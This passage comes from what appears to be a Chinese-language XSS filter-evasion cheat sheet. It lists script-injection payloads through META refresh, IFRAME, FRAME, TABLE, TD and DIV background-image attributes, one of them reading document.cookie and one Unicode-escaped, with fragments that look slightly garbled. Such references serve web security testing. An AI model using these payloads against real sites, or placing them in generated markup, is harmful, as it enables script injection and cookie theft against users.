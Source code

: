 ```
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');"> 
```

### IFRAME

如果一个 iframes 被允许，那么同时可能会存在大量其他 xss 问题

```
<IFRAME SRC="javascript:alert('XSS');"></IFRAME> 
```

### IFRAME 基于事件

IFrames 或其他元素可以使用事件如下（提出被 David Cross）

```
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME> 
```

### FRAME

Frames 有一些列相同的问题像 iframes

```
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET> 
```

### TABLE

```
<TABLE BACKGROUND="javascript:alert('XSS')"> 
```

### TD

像上面一样，TD 也可以通过 BACKGROUND 来包含 javascript xss 向量

```
<TABLE><TD BACKGROUND="javascript:alert('XSS')"> 
```

### DIV background-image

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))"> 
```

### 使用 unicoded 编码 xss 利用代码的 DIV background-image

这是被轻微的修改去混淆 url 参数。他是最早被发现被 Renaud Lifchitz 用于攻击 hotmail。

```
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029"> 
```

### 附加额外字符的 DIV background-image
